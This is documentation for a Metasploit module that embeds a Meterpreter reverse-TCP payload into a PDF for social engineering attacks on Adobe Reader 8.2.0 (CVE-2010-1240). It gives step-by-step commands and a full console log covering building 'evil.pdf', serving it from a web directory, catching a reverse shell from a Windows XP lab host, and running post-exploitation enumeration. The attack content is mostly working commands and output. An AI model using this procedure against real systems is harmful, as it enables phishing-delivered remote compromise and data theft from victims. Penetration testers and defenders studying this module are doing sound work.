 ## Vulnerable Application

This module embeds a Metasploit payload into an existing PDF file. The resulting PDF can be sent to a target as part of a social engineering attack.

Link to vulnerable software [OldVersion](http://www.oldversion.com/windows/download/acrobat-reader-8-2-0)

## Verification Steps

   1. Install application on the target machine
   2. Start msfconsole
   3. Do: ```use exploit/windows/fileformat/adobe_pdf_embedded_exe```
   4. Do: ```set payload [windows/meterpreter/reverse_tcp]```
   5. Do: ```set LHOST [IP]```
   6. Do: ```exploit```
   7. Do: ```use exploit/multi/handler```
   8. Do: ```set LHOST [IP]```
   9. Do: ```exploit```
   10. Do: Open PDF on target machine with vulnerable software

## Options

### EXENAME

  The Name of payload exe.

### FILENAME

  The output filename.

### INFILENAME

  The Input PDF filename.

### LAUNCH_MESSAGE

  The message to display in the `File:` area of the PDF.

## Scenarios

### Adobe Reader 8.2.0 on Windows XP (5.1 Build 2600, Service Pack 3)

  ```
  msf > use exploit/windows/fileformat/adobe_pdf_embedded_exe
  msf exploit(windows/fileformat/adobe_pdf_embedded_exe) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp
  msf exploit(windows/fileformat/adobe_pdf_embedded_exe) > set LHOST 192.168.1.3
    LHOST => 192.168.1.3
  msf exploit(windows/fileformat/adobe_pdf_embedded_exe) > exploit

    [*] Reading in '/usr/share/metasploit-framework/data/exploits/CVE-2010-1240/template.pdf'...
    [*] Parsing '/usr/share/metasploit-framework/data/exploits/CVE-2010-1240/template.pdf'...
    [*] Using 'windows/meterpreter/reverse_tcp' as payload...
    [+] Parsing Successful. Creating 'evil.pdf' file...
    [+] evil.pdf stored at /root/.msf4/local/evil.pdf
  msf exploit(windows/fileformat/adobe_pdf_embedded_exe) > cp /root/.msf4/local/evil.pdf /var/www/html/evil.pdf
    [*] exec: cp /root/.msf4/local/evil.pdf /var/www/html/evil.pdf

  msf exploit(windows/fileformat/adobe_pdf_embedded_exe) > use exploit/multi/handler
  msf exploit(multi/handler) > set LHOST 192.168.1.3
    LHOST => 192.168.1.3
  msf exploit(multi/handler) > exploit

    [*] Started reverse TCP handler on 192.168.1.3:4444
    [*] Sending stage (180291 bytes) to 192.168.1.5
    [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.5:1121) at 2019-12-09 14:17:10 -0700

  meterpreter > sysinfo
    Computer        : COMPUTER_1
    OS              : Windows XP (5.1 Build 2600, Service Pack 3).
    Architecture    : x86
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x86/windows
  meterpreter > getuid
    Server username: COMPUTER_1\USER
  meterpreter > run post/windows/gather/enum_applications

    [*] Enumerating applications installed on COMPUTER_1

      Installed Applications
      ======================

      Name                Version
      ----                -------
      Adobe Reader 8.2.0  8.2.0



    [+] Results stored in: /root/.msf4/loot/20191209141758_default_192.168.1.5_host.application_783490.txt
      ```
